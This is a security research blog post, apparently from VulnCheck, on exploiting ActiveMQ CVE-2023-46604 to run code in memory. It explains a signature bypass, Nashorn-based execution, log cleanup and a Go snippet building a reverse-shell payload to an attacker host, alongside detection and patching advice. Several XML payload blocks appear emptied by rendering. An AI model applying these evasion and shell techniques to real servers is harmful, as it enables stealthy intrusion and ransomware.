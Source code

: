 ```yaml
---
title: "Executing from Memory Using ActiveMQ CVE-2023-46604 - Blog - VulnCheck"
date: 2023-11-15T00:00:00.000Z
draft: false
type: posts
categories: 
- 
---
```

# Executing from Memory Using ActiveMQ CVE-2023-46604 - Blog - VulnCheck

<br/>

<br/>
::check-list\\n---\\ntitle: Key Takeaways\\nico: mdi:check-bold\\nlist:\\n - CVE-2023-46604 allows attackers to execute arbitrary code from ActiveMQ’s memory, therefore avoiding most detections.\\n - There were no public details or detections for this exploitation method until this blog.\\n - A memory-resident attacker is very difficult to detect. It’s best to ensure your ActiveMQ instances are not internet-facing.\\n---\\n::\\n\\n## Introduction\\n\\n\[Huntress Labs\](https://www.huntress.com/blog/critical-vulnerability-exploitation-of-apache-activemq-cve-2023-46604), \[Rapid7\](https://www.rapid7.com/blog/post/2023/11/01/etr-suspected-exploitation-of-apache-activemq-cve-2023-46604/), and \[ArticWolf\](https://arcticwolf.com/resources/blog/tellmethetruth-exploitation-of-cve-2023-46604-leading-to-ransomware/) all recently published reports of threat actors exploiting \[ActiveMQ\](https://activemq.apache.org/) \[CVE-2023-46604\](https://nvd.nist.gov/vuln/detail/CVE-2023-46604) to drop ransomware onto the victim host. The attackers used CVE-2023-46604 to invoke \`cmd.exe\` followed by \`curl.exe\` or \`msiexec.exe\` in order to download and execute their ransomware. The attackers were very obvious and caught the aforementioned companies' attention, all of which offer managed detection and response products. However, the attacks needn’t have been so noisy. In this blog, we will explore how an attacker can exploit CVE-2023-46604 and execute arbitrary code \*from memory\*.\\n\\n## Public Exploits\\n\\nThe threat actors all appeared to have relied on the public details for this vulnerability. The exploit was originally disclosed in a Chinese-language blog by \[X1R0z\](https://exp10it.cn/2023/10/apache-activemq-%E7%89%88%E6%9C%AC-5.18.3-rce-%E5%88%86%E6%9E%90/) on October 25, 2023 and then re-analyzed by \[Stephen Fewer\](https://attackerkb.com/topics/IHsgZDE3tS/cve-2023-46604/rapid7-analysis) of Rapid7 on November 1, 2023. They both, more or less, came up with an exploit that used \[ClassPathXmlApplicationContext\](https://docs.spring.io/spring-framework/docs/current/javadoc-api/org/springframework/context/support/ClassPathXmlApplicationContext.html) to load an \[XML Bean\](https://docs.spring.io/spring-framework/docs/4.2.x/spring-framework-reference/html/xsd-configuration.html) that looks like this:\\n\\n\`\`\`xml\\n\\n \\n \\n \\n \\n cmd.exe\\n /c\\n calc.exe\\n \\n \\n \\n \\n\`\`\`\\n\\nThe above XML bean causes ActiveMQ to call \`java.langProcessBuilder(“cmd.exe”, “/c”, “calc.exe”);\` - resulting in ActiveMQ launching the calculator process. There have been quite a few other public exploits (\[Metasploit\](https://github.com/rapid7/metasploit-framework/pull/18501/files), \[Nuclei\](https://raw.githubusercontent.com/projectdiscovery/nuclei-templates/main/network/cves/2023/CVE-2023-46604.yaml), \[XDB-90299d8578e8\](https://vulncheck.com/xdb/90299d8578e8), \[XDB-07dca85f6442\](https://vulncheck.com/xdb/07dca85f6442), \[XDB-2a263bac5fa9\](https://vulncheck.com/xdb/2a263bac5fa9), \[XDB-c01880ea274b\](https://vulncheck.com/xdb/c01880ea274b), \[XDB-5f38a93c3fe0\](https://vulncheck.com/xdb/5f38a93c3fe0), \[XDB-0462e934919b\](https://vulncheck.com/xdb/0462e934919b), \[XDB-7adf2c60412f\](https://vulncheck.com/xdb/7adf2c60412f)) but none deviate from this path.\\n\\nThe perceived restriction is that the attacker must use a bean that accepts all of its configuration through its constructor and has a function that can be invoked via the \`init-method\` parameter (or \`destroy\`).\\n\\nHowever, none of those restrictions actually exist.\\n\\n## Creating a Better Exploit\\n\\nThe first detail worth noting is that the attacker doesn’t have to use \`ClassPathXmlApplicationContext\`. \[FileSystemXmlApplicationContext\](https://docs.spring.io/spring-framework/docs/current/javadoc-api/org/springframework/context/support/FileSystemXmlApplicationContext.html) works just fine. The output barely changes on the wire.\\n\\n!\[CVE-2023-46604 on the wire\](/blog/cve-2023-44604-activemq-in-memory/cve-2023-44604-otw.png){:width="100%"}\\n\\nIt’s important to note because existing network signatures (see \[sid:2049045\](https://rules.emergingthreats.net/open/suricata-6.0/emerging-all.rules)) rely on \`ClassPathXmlApplicationContext\` being present. So we get a simple signature bypass by using \`FileSystemXmlApplicationContext\`.\\n\\nWhen it comes to the XML bean, we don’t actually need most of what the public exploits use. We don’t need to construct a bean or invoke a function via \`init-method\`. We just need to use SpEL.\\n\\n\`\`\`xml\\n\\n \\n \\n \\n\\n\`\`\`\\n\\nIn the XML bean above, you can see that we’ve embedded a SpEL expression to invoke the Nashorn javascript engine and write a file to disk. The payload does not shell out to \`cmd.exe\` or \`bash\` to write to disk. It just uses the native functionality in the \`java.exe\` process. Spring, \[by design\](https://docs.spring.io/spring-framework/reference/core/expressions/beandef.html), allows for SpEL in bean definitions. As a feature, we can execute arbitrary code \*as the original process\*. We don’t need to shell out to a new process at all!\\n\\nThat means the threat actors could have avoided dropping their tools to disk. They could have just written their encryptor in Nashorn (or loaded a class/JAR into memory) and remained memory resident. Perhaps avoiding detection from the aforementioned managed EDR teams.\\n\\nHowever, if the attacker \*did\* do that, they’d also need to clean up the \`activemq.log\` because the above XML triggers the following log message (note that:\\n\\n> 2023-11-11 14:05:10,839 | WARN | Exception encountered during context initialization - canceling refresh attempt: org.springframework.beans.factory.BeanCreationException: Error creating bean with name 'vulncheck' defined in URL \[http://10.9.49.131:8080/bppkArhoWrRn\]: Initialization of bean failed; nested exception is org.springframework.beans.factory.BeanExpressionException: Expression parsing failed; nested exception is org.springframework.expression.ExpressionInvocationTargetException: A problem occurred when trying to execute method 'eval' on object of type \[jdk.nashorn.api.scripting.NashornScriptEngine\] | org.springframework.context.support.FileSystemXmlApplicationContext | ActiveMQ Transport: tcp:///10.9.49.131:57484@61616\\n\\nGenerally speaking, you never want to see Nashorn in your logs. You really don’t want to see it associated with BeanCreation. Note that the nested exception will not always include a “Nashorn\` exception, so detection should occur around the remote BeanCreationException.\\n\\n## A Reverse Shell\\n\\nThe overarching objective of this blog was executing arbitrary code in memory. However, I’m informed people would be disappointed if they didn’t get a reverse shell payload. Remember, when you use this reverse shell, you are using \`bash\` or \`cmd.exe\`... which is the exact thing that caught Huntress, Rapid7, and ArticFox’s attention in the first place. But here you go anyway:\\n\\n\`\`\`go\\nxml := fmt.Sprintf(\`\\n \\n \\n \\n \`, b64.StdEncoding.EncodeToString(\[\]byte(payload.ReverseShellJJSScript(conf.Lhost, conf.Lport, conf.C2Type == c2.SSLShellServer))))\\n\\n\`\`\`\\n\\nNote that \[payload.ReverseShellJSSScript\](https://github.com/vulncheck-oss/go-exploit/blob/62833721dab65674281d5a82abe37816d742f358/payload/reverse.go#L81) is from \[go-exploit\](https://github.com/vulncheck-oss/go-exploit/tree/main), and automatically supports Windows and Linux targets, as well as encryption.\\n\\nThe whole thing looks like this on the wire:\\n\\n\`\`\`xml\\n\\n \\n \\n \\n\\n\`\`\`\\n\\n## Conclusion\\n\\nThere are currently more than \[ten thousand\](https://search.censys.io/search?resource=hosts&sort=RELEVANCE&per\_page=25&virtual\_hosts=INCLUDE&q=services.extended\_service\_name%3D%22ACTIVEMQ%22) of internet-facing ActiveMQ servers, and multiple organizations have reported ransomware attacks. Now that we know attackers can execute stealthy attacks using CVE-2023-46604, it’s become even more important to patch your ActiveMQ servers and, ideally, remove them from the internet entirely.\\n\\n\\n## About VulnCheck\\n\\nThe VulnCheck Initial Access team is always looking to advance the state of attack on initial access vulnerabilities like CVE-2023-46604. For more research like this, see our blogs, \[PaperCut Exploitation\](https://vulncheck.com/blog/papercut-rce) and \[Fileless Remote Code Execution on Juniper Firewalls\\n\](https://vulncheck.com/blog/juniper-cve-2023-36845). Sign up to start a trial of our \[Initial Access Intelligence\](https://vulncheck.com/product/initial-access-intelligence) and \[Exploit & Vulnerability Intelligence\](https://vulncheck.com/product/exploit-intelligence) product today.\\n

#### [Source](https://vulncheck.com/blog/cve-2023-44604-activemq-in-memory)

<br/>
---
